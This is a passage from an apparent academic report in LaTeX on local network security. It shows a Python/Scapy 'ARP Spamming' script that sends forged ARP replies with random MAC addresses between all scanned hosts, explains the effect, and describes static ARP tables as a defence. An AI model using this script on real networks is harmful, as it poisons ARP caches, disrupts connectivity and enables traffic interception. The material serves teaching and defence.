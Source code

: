 \begin{Code}{ARP Spamming}
def start(self):
   while self.running:
        
       # Talks to every machine and changes the ARP value
       # The list of hosts is obtained by an NMAP scan
       for host_dst in self.active_hosts:
           for host_src in self.active_hosts:
           	  if host_dst != host_src:
                 
           	  	# Send the ARP packet - rnd_mac_addresses() creates
           	  	# a fully random  MAC address
           	  	self.send_arp_packet(host_dst, 
                                    host_src, 
                                    self.rnd_mac_addresses[count])


def send_arp_packet(self, dst, src, mac, op_code=2):
        
    # Construction of the ARP Packet
    pkt = ARP(op=2, 
              pdst=dst, 
              psrc=src, 
              hwdst="ff:ff:ff:ff:ff:ff", 
              hwsrc=mac)

    send(pkt, verbose=0)
					
\end{Code}
\begin{figure}[h]
	\caption{Code from the ArpSpamming.py script}
	\label{fig:ArpSpammingCode}
\end{figure}


Figure~\ref{fig:ArpSpammingCode} above shows the attack effecting the entire network. The scan finds all active hosts and returns them as a list that is then used as source and destination IP addresses that ultimately end up affecting the entire local networks ARP cache.

This attack is relatively easy to execute but can simply be prevented by issuing static ARP tables for each machine, with a few authenticated machines allowed to perform changes. This static table prevents unsolicited ARP replies from changing IP and MAC address combinations and also prevents ARP Spoofing from occurring on that network.


\subsection{Router Design}
The router is required to create an access point and allow access to the internet. Traffic will be routed through the router that is destined for other location, this will mean traffic will flow through the "Forward" section of the iptables map (Refer to Figure ~\ref{ref:iptables}). Therefore, a rule is required to catch any traffic from flowing into the machine. 

